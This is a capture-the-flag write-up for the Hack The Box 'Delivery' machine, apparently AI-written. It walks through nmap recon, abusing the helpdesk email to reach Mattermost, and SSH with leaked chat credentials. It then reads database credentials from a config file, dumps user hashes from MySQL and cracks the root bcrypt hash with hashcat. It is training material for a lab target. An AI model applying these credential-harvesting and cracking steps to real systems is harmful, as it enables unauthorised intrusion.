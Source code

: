 # HTB: Delivery — Walkthrough

## 📂 Box Info
- **Name:** Delivery
- **IP:** 10.10.10.222
- **OS:** Linux
- **Difficulty:** Easy

---

## 🔎 Recon
```bash
nmap -sV -p- -T4 -oA nmap/delivery-all 10.10.10.222
```
- Open ports: 22 (SSH), 80 (HTTP), 8065 (unknown service initially)
- `/etc/hosts` additions:
  ```
  10.10.10.222 delivery.htb helpdesk.delivery.htb
  ```

---

## 🏠 Web Enumeration
- **Port 80:** Static homepage
- **Subdomain found:** helpdesk.delivery.htb
- **Port 8065:** Mattermost interface at `http://delivery.htb:8065/`

### Helpdesk Ticket System
- Created new ticket on `helpdesk.delivery.htb`
  - Email: `test1@delivery.htb`
  - Ticket ID: `4076334`
- Used this info to access Mattermost:
  - Signup using `4076334@delivery.htb`
  - Got email verification link via helpdesk panel

---

## 🔑 Credentials & User Shell
- From Mattermost `town-square` channel:
  ```
  maildeliverer : Youve_G0t_Mail!
  ```
- SSH as maildeliverer:
  ```bash
  ssh maildeliverer@10.10.10.222
  # Password: Youve_G0t_Mail!
  ```
- Captured user flag from `~/user.txt`

---

## ⬆️ Privilege Escalation
### Step 1: Find Credentials
- File: `/opt/mattermost/config/config.json`
```json
"SqlSettings": {
    "DriverName": "mysql",
    "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost",
```
- Credentials: `mmuser : Crack_The_MM_Admin_PW`

### Step 2: Dump Users Table
```bash
mysql -h 127.0.0.1 -u mmuser -p
# Password: Crack_The_MM_Admin_PW
MariaDB> use mattermost;
MariaDB> SELECT Username,Password FROM Users;
```
- Found bcrypt hash for `root`

### Step 3: Crack Bcrypt Hash
- Hint from Mattermost: `PleaseSubscribe!` related password
- Custom wordlist generation:
```bash
echo 'PleaseSubscribe!' > pass.lst
hashcat --stdout pass.lst -r /usr/share/hashcat/rules/best64.rule > custom.lst
```
- Crack hash:
```bash
hashcat -m 3200 -a 0 -o cracked.txt <HASH> custom.lst
```
- Cracked password: `PleaseSubscribe!21`

### Step 4: Root Access
```bash
su root
# Password: PleaseSubscribe!21
```
- Captured root flag from `~/root.txt`

---

## 📄 Summary
- Enumerated support ticket system to gain Mattermost access
- Extracted SSH credentials from chat
- Used MySQL access to retrieve root hash
- Cracked bcrypt hash using rules
- Escalated to root and captured all flags

---

Let me know if you'd like this exported as PDF or visualized as a flow diagram! 🔐

